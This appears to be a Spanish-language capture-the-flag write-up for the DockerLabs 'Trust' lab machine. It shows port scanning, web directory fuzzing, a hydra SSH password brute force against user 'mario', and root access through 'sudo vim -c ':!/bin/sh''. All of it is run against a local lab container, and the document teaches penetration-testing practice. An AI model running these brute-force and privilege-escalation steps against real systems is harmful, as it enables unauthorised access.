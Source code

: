 ```yaml
---
title: CTF-DockerLabs-Trust
published: true
---
```


## WriteUps maquina Trust de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [ElPinguinoDeMario]

# Datos

[!INFO] Trust
>  **Nombre:** Trust
>  **SO:** Linux
>  **Dificultad:** Muy fácil
>  **Enlace:** [Dockerlabs](https://dockerlabs.es/)


[!TODO] Objetivo
> 🚩Ingresar a la maquina como algún usuario.
> 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

![dockerlabsTrust.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/dockerlabsTrust.png)

# Reconocimiento

> Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:


```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-21 19:14 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

Al darme cuenta que existe el `puerto 80` abierto, procedo a visitar desde el navegador la dirección IP de la maquina y encuentro una pagina por defecto de apache: `Apache2 Debian Default Page,` lo próximo que hago es ver su código fuente y no encuentro nada fuera de la común. 

# Fuzzing Web

> El siguiente paso que procedo a realizar es un fuzzing web puesto que tengo un servidor web corriendo en la maquina, así que utilizo `dirbuster` y el resultado es el siguiente:

```bash
└─# dirbuster 
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /icons/ - 403
Dir found: /icons/small/ - 403
File found: /secret.php - 200
Dir found: /server-status/ - 403
DirBuster Stopped
```

Puedo ver en el resultado que existe un archivo llamado `secret.php` que al visitarlo me muestra:

![SecretTrustDockerlabs.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/SecretTrustDockerlabs.png)

En su código fuente de la pagina, no me muestra nada interesante, pero recordando que existe el `sevicio ssh en el puerto 22` utilizo el nombre de usuario `mario` para realizar fuerza bruta.

# Fuerza bruta SSH

> Ya que la web no nos da mucha información, pero si proporciona un posible usuario, procedo a utilizar `hydra` para hacer un ataque de fuerza bruta de la siguiente manera:


```bash
└─# hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: QnVzY2EgbGEgY2xhdmUgZW4gb3RybyBsYWRvCg==
1 of 1 target successfully completed, 1 valid password found
```

Y listo, con esto ya logro acceder por `ssh`, con el usuario `mario` y la contraseña encontrada.

`ssh mario@172.17.0.2`

# Escalada de privilegios

> Ahora que tengo acceso con el usuario `mario` procedo a escalar privilegio y para ello coloco primeramente: `sudo -l` lo que me da como resultado:

```bash
~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 30dc76e27a9d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 30dc76e27a9d:
    (ALL) /usr/bin/vim
```

# PWNED

Así que procedo ir a la web [GTFOBins](https://gtfobins.github.io/) para ver como elevar privilegios utilizando `vim` con `sudo` y el resultado es que si coloco el siguiente comando `vim -c ':!/bin/sh'` con la palabra `sudo` lograría ingresar con el usuario root.

![pwnedTrustDockerlabs.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/pwnedTrustDockerlabs.png)

# Comandos

> [!IMPORTANT] Resumen de comandos utilizados
> `sudo bash auto_deploy.sh trust.tar`
> `nmap 172.17.0.2`
> `dirbuster`
> `hydra -l mario -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh`
> `ssh mario@172.17.0.2`
> `sudo vim -c ':!/bin/sh'`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |